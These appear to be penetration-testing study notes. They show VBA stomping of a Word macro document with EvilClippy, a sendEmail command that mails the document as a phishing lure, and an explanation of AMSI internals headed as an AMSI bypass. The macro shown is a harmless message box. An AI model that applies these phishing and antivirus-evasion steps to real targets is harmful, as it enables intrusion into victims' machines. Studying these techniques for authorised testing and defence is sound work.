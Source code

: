 
### Stomp Microsoft Word document

`fakecode.vba`

```VB
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    MsgBox ("This is a macro test")
End Sub
```

```bat
.\EvilClippy.exe -s fakecode.vba Report0.doc
mv Report0_EvilClippy.doc Report.doc -Force
```

### Send email

```bash
sendEmail -f <email>  -t <email> -u “Report to Review” -m “Please review this report” -s 192.168.119.120 -a Report.doc
```

## Bypassing AMSI With Reflection in PowerShell

We purposely downloaded and executed the code directly in memory without giving the AV a chance to scan it.

AMSI is a set of **APIs** that allow AV products to scan PowerShell commands and scripts when they are executed, even if they are never written to disk.

The unmanaged DLL `AMSI.DLL` is loaded into every PowerShell and PowerShell_ISE process.

Relevant information captured by these APIs is forwarded to `Windows Defender` through Remote Procedure Call (`RPC`).

After Windows Defender analyzes the data, the result is sent back to `AMSI.DLL` inside the PowerShell process.

When PowerShell is launched, it loads `AMSI.DLL` and calls `AmsiInitialize`.

`AmsiInitialize` takes place before we are able to invoke any PowerShell commands => We cannot influence it in any way.

Once `AmsiInitialize` is complete and the `amsiContext` context structure is created.

When we execute a PowerShell command, the `AmsiOpenSession` API is called.

`AmsiOpenSession` accepts the `amsiContext` context structure and creates a session structure to be used in all calls within that session.
